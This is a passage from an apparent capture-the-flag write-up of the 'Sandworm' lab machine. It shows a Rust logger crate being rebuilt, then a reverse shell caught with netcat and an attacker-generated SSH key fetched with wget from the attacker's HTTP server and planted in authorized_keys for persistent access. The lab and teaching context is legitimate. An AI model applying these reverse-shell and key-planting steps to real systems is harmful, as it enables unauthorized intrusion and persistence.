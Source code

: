 ```bash
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

And run the build:

```bash
silentobserver@sandworm:/opt/crates/logger$ cargo build
```

Catching shell:

```bash
$ ssh-keygen -t rsa -b 4096 -f test
$ mv test.pub authorized_keys
$ python3 -m http.server 8443
10.10.11.218 - - [25/Oct/2023 19:27:19] "GET /authorized_keys HTTP/1.1" 200 -

$ nc -lnvp 4444
listening on [any] 4444 ...
id
connect to [10.10.16.34] from (UNKNOWN) [10.10.11.218] 52982
bash: cannot set terminal process group (6372): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
atlas@sandworm:~/.ssh$ wget http://10.10.16.34:8443/authorized_keys
wget http://10.10.16.34:8443/authorized_keys
--2023-10-25 16:27:19--  http://10.10.16.34:8443/authorized_keys
Connecting to 10.10.16.34:8443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3381 (3.3K) [application/octet-stream]
Saving to: ‘authorized_keys’

     0K ...                                                   100% 12.9M=0s

2023-10-25 16:27:19 (12.9 MB/s) - ‘authorized_keys’ saved [3381/3381]

atlas@sandworm:~/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys
atlas@sandworm:~/.ssh$ ls -al
ls -al
total 12
drwx------ 2 atlas atlas 4096 Oct 25 16:27 .
drwxr-xr-x 8 atlas atlas 4096 Oct 25 16:22 ..
-rw------- 1 atlas atlas 3381 Oct 25 16:26 authorized_keys
```
